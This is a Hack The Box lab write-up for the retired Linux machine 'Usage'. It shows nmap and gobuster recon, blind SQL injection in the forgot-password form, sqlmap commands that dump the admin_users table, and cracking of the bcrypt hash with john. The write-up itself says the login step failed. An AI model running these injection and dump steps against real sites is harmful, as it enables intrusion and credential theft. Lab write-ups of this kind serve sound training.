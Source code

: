 # 🧠 HTB Machine: Usage (Retired)

**Difficulty:** Easy  

**Operating System:** Linux  

**Tech Stack:** Laravel, MySQL, Nginx  

**Focus Areas:** SQL Injection, Hash Cracking, Web Enumeration

---

## 🛰️ Reconnaissance

Initial `nmap` scan revealed:


- `22/tcp` – OpenSSH 8.9p1  

- `80/tcp` – nginx 1.18.0, redirecting to `usage.htb`

```bash

nmap -sC -sV -oA usage_scan 10.10.11.18

```

---
## 🌐 Web Enumeration

Visiting `http://usage.htb` revealed a Laravel-based login page.  

Cookie analysis (`laravel_session`, `XSRF-TOKEN`) confirmed Laravel backend.  

No useful error messages on failed login attempts.

---
## 🔍 Gobuster Scan

```bash

gobuster dir -u http://usage.htb -w /usr/share/wordlists/dirb/common.txt -x php,txt,html

```

- Server returned repeated `503 Service Unavailable` responses due to overload.  

- As per IppSec’s strategy, directory brute-force was halted and focus shifted to login functionality.

---

## 🔐 Vulnerability Discovery

### 📌 Blind SQL Injection in Forgot Password form

- Sending `'` as the email caused a `500 Internal Server Error`.

- Using `' --` suppressed the error, confirming boolean-based SQLi.

---

## 📦 SQLMap Usage


```bash

sqlmap -r reset_request.txt -p email --level 5 --risk 3 --technique=B --batch

```

✅ **Result:** Parameter `email` is vulnerable to **boolean-based blind SQLi**.  

**Backend:** MySQL ≥ 8.0, **Web server:** nginx, **OS:** Ubuntu

---

## 🧱 Database Extraction

```bash

sqlmap -r reset_request.txt -p email --dbs

```

🎯 Target DB: `usage_blog`

```bash

sqlmap -r reset_request.txt -p email -D usage_blog --tables

```

🗂️ Found tables: `admin_users`, `users`, `password_reset_tokens`, etc.

```bash

sqlmap -r reset_request.txt -p email -D usage_blog -T admin_users --dump

```

🧑‍💼 Extracted 1 user:

- **Username:** `admin`  

- **Password (bcrypt):** `$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`

---

## 🔓 Password Cracking

Used `john` with the rockyou wordlist:

```bash

john admin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

```

✅ Recovered password: **`whatever1`**

---
## ❗ Login Attempt Blocked

Despite correct credentials (`admin : whatever1`), login via `/login` did not succeed due to instability or backend issues.  

Tested across multiple browsers and sessions.

---
## ✅ Conclusion

This machine demonstrated a full web exploitation flow:

🔹 Web enum ➝  

🔹 Blind SQLi ➝  

🔹 DB extract ➝  

🔹 Password cracking
  
Although the final login step was unsuccessful, the credentials were confirmed and the attack chain is complete.

---
**Status:** ✅ Documented | 🚫 No root access | 🔐 Admin creds obtained | 🧠 Skills demonstrated
